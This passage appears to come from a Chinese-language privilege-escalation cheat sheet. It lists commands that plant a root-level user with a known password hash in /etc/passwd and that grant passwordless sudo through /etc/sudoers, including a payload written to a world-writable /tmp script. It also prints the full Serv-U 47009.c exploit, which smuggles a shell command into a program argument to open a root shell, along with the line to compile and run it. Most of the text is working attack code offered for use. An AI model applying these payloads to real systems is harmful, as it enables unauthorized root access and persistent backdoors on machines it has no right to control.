 ```
1、生成自定义的新密码
	mkpasswd -m sha-512
	密码：123456
	或 
	openssl passwd -1 123456

	echo 'test:$6$p7H73wlaIu771Bee$lzlH8TvKZjJzjnQbxHco2eA6aZ4MnyTnF57zMaVoafyDj70PH73PcFqGdusN2XNJinj.eDTTGBzj4CgGhYCmd/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

尝试切换账户：

增加sudo权限法：
```
echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers
```

playlods

```
echo 'echo "ALL ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > /tmp/update

echo 'test:$6$p7H73wlaIu771Bee$lzlH8TvKZjJzjnQbxHco2eA6aZ4MnyTnF57zMaVoafyDj70PH73PcFqGdusN2XNJinj.eDTTGBzj4CgGhYCmd/:0:0:root:/root:/bin/bash' >> /etc/passwd

chmod 777 /tmp/update
```

## 6.21、Serv-U 提权

通杀漏洞：
```
┌──(nerubian㉿kali)-[~/vulnhub]
└─$ searchsploit Serv-U Privilege

 Exploit Title                         |  Path
-------------------------------------------------------- -----------------
RhinoSoft Serv-U FTP Server 3.x < 5.x - Local Privilege Escalation        | windows/local/381.c
Serv-U FTP Server - prepareinstallation Privilege Escalation (Metasploit) | linux/local/47072.rb
Serv-U FTP Server - prepareinstallation Privilege Escalation (Metasploit) | linux/local/47072.rb
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)               | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)               | multiple/local/47173.sh
```

47009.c
```
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```
利用执行
```
gcc 47009.c -o pe && ./pe
```

